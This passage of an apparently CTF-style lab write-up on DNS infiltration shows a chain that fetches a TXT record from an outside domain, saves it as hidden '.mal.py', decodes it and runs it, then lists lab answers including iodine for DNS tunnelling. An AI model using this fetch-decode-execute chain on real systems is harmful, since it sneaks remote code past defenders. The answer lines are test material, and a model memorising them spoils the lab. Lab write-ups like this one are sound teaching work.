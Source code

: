 But we need to extract the text value only so :

```console
user@user1:~/challenges/infiltration$ nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \" -f2 > .mal.py
user@user1:~/challenges/infiltration$ ls
TASK
user@user1:~/challenges/infiltration$ ls -la
total 16
drwxrwxr-x 2 user user 4096 Sep 17 05:29 .
drwxrwxr-x 4 user user 4096 Feb 14  2021 ..
-rw-rw-r-- 1 user user   61 Sep 17 05:29 .mal.py
-rw-rw-r-- 1 user user  452 Feb 26  2021 TASK
user@user1:~/challenges/infiltration$ cat .mal.py 
YeeTbunLbACdXq193g6VHXRuDQ9Y1upaAzA3UkpCr8yBBE68JEXU32wxNE44
```
{: .nolineno }

We now need to decode this file using the provide script :

```console
user@user1:~/challenges/infiltration$ python3 ~/dns-exfil-infil/packetySimple.py 
Filename: .mal.py
[+] Reading from file...
[+] Base58 decoded.
[+] Base64 decoded.
[+] Done, .mal.py is decoded.
user@user1:~/challenges/infiltration$ cat .mal.py 
import os; print(os.uname()[2])
user@user1:~/challenges/infiltration$ python3 .mal.py 
4.4.0-186-generic
```
{: .nolineno }

Answer : 4.4.0-186-generic

## TASK 11 : DNS Tunneling 
### What program was used to Tunnel HTTP over DNS? 
Answer : iodine

## TASK 12 : The End
### Thanks. 
No Answer
